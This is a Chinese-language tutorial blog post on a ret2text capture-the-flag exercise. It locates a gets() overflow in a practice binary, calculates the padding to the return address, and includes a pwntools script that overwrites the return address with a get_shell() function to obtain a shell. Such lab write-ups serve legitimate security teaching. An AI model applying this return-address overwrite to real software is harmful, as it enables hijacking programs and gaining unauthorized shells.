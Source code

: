 ```yaml
---
layout:     post
title:      pwn学习（一）：栈溢出覆盖返回地址
subtitle:   利用栈溢出获取控制权
date:       2021-08-07
author:     Hongtai S
header-img: img/5.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - pwn
---
```

# 栈溢出覆盖返回地址 #


## ret2text题目分析 ##

将文件ret2text拖入Ida中查看还原的C代码：

![1.PNG](https://i.loli.net/2021/08/07/5DFHOYzJjEMqRpt.png)

看到可以的函数vulnerable()，跟进查看：

![2.PNG](https://i.loli.net/2021/08/07/nEvxPSeLVlBYT9U.png)

发现不安全的gets()函数,能够利用栈溢出覆盖返回地址以获取一次劫持程序执行流的机会。

继续寻找能够利用的跳转地址，发现程序中包含get_shell()函数，跟进：

![3.PNG](https://i.loli.net/2021/08/07/J6ucoV7dN4yfRMS.png)

![4.PNG](https://i.loli.net/2021/08/07/GOHkcoy9vKeudPp.png)

刚好是能够获取目标系统的shell函数，入口地址为0x08048522，将返回地址覆盖为入口地址即可成功获取shell
在Ida中显示函数vulnerable()的buffer字符串与ebp的距离为10h，栈中返回地址前需要填充10h(与ebp距离) + 4(ebp)大小的字符串也就是"AAAA" * 4 + "BBBB"，最后加上get_shell()的入口地址0x08048522。

gdb动态调试验证：

跟进vulnerable()函数，输入字符串AAAA后查看栈中情况：

![5.PNG](https://i.loli.net/2021/08/07/iBRWqTX86PlJdGv.png)

可以看到从字符串起止地址覆盖到返回地址总共需要20个字符，与实际情况相符。

## 编写脚本 ##

 ```python
from pwn import *

#远程连接服务器使用remote函数
#io = remote("ip", port)

#使用本地进程测试使用process函数
io = process("ret2text")

#接受程序的一行打印
io.recvline()

#构造覆盖返回地址的字符串，注意要将数据转为字节的形式
overflow = b'AAAA' * 5 + p32(0x8048522)

#发送构造的数据
io.sendline(overflow)

#获取shell交互权限
io.interactive()

```

运行脚本成功获取shell权限
![7.PNG](https://i.loli.net/2021/08/07/vStumLenk1B2C4Z.png)



